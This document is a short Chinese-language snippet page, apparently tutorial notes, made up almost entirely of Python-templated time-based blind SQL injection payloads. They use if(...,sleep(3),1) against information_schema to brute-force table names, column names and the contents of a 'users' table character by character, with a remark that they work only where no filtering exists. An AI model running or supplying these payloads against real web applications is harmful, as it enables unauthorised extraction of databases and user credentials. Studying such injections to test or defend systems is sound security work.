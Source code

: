 ```python
payload="and if(length((select group_concat(table_name) from information_schema.tables where table_schema = database() limit 0,1))=%s,sleep(3),1) --+" %l
```

<font style="color:rgb(79, 79, 79);">爆破表名的payload:</font>

```python
payload = " and if(ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema = database() limit 0,1),%s,1)) = %s,sleep(3),1) --+" %(j,charAscii)
```

<font style="color:#601BDE;">注：爆破名字的时候建议套上ascii()函数</font>

<font style="color:rgb(79, 79, 79);">爆破列长的payload：</font>

```python
payload=" and if(length((select group_concat(column_name) from information_schema.columns where table_name = 'users' ))=%s,sleep(3),1) --+" %l
```

<font style="color:rgb(79, 79, 79);">爆破列名的payload:</font>

```python
payload2 = " and if(ascii(substr((select group_concat(column_name) from information_schema.columns where table_name = 'users' limit 0,1),%s,1)) = %s,sleep(3),1) --+" %(j,charAscii)
```

<font style="color:rgb(79, 79, 79);">爆破字段长的payload:</font>

```python
payload=" and if(length((select group_concat(username) from users ))=%s,sleep(3),1) --+" %l
```

<font style="color:rgb(79, 79, 79);">爆破字段名的payload：</font>

```python
payload=" and if(ascii(substr((SeLeCt group_concat(username) from users ),%s,1)) = %s,sleep(3),1) --+" %(j,charAscii)
```

**<font style="color:#601BDE;">注：这里写的payload是在完全没有过滤的情况下才可以运行的。</font>**

